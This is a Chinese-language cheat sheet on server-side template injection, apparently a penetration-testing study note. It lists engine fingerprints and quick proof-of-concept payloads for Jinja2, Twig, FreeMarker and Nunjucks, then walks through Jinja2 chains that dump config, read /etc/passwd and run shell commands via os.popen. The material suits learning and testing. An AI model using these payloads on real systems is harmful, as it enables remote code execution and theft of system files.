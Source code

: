 
+ **本质**：模板→数据替换 的过程被逆转：  
数据（用户可控）→ 模板语法 → 引擎解析 → **代码执行**（RCE）。





**漏洞形成流程图**

[文本绘图-展示漏洞成因](https://www.mermaidchart.com/play?utm_source=mermaid_js&utm_medium=editor_selection&utm_campaign=playground#pako:eNqrVkrOT0lVslJKL0osyFAIcYnJUwACx-jnU1Y869j-Yt_kp61LYxV0de1qnk1f8GJ_-7PdS2oUnKKfrVj4bO7-p3umPpvcFwvR4wRSpeAc_WzHpmfzJ4N0tu9ClqopSKzMyU9MsYXofbF-7bPNU2sUXKKf7F78fEHjs87lLxb26Ac5uwI1KdUCAGP0Scs)

![](https://cdn.nlark.com/yuque/__mermaid_v3/1363e5808649bdc326390a9941f588d3.svg)

模板引擎速查表与语法指纹

| 语言 | 常见引擎 | 识别语法 | 快速 PoC |
| --- | --- | --- | --- |
| Python | Jinja2 / Mako | `{{7*7}}` → `49` | `{{ ''.__class__.__mro__[1].__subclasses__()[...]` |
| PHP | Twig / Smarty | `{{7*7}}` / `{{$smarty}` | `{{_self.env.setCacheDir("/tmp")}}` |
| Java | FreeMarker | `${7*7}` | `${"freemarker.template.utility.Execute"?new()("id")}` |
| Node.js | Nunjucks / EJS | `<%= 7*7 %>` | `{{range.constructor("return process.mainModule.require('child_process').execSync('id')")()}}` |




### Jinja2 经典利用链（含命令执行）
> 以 Python + Flask（Jinja2）为示例
>

基本信息泄露

```python
{{ config.items() }}
```

RCE（Python3 链）

```python
{% set x=globals.__builtins__.open('/etc/passwd').read() %}{{x}}
```

最通用的 os.popen 链

```python
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

| Stage | Explanation |
| --- | --- |
| `self` | Jinja2 内建对象 |
| `.__init__` | ⇒ 函数对象 |
| `.__globals__` | ⇒ 全局命名空间 |
| `.__builtins__.os` | 获得 os 模块 |
| `popen` | ⇒ RCE |
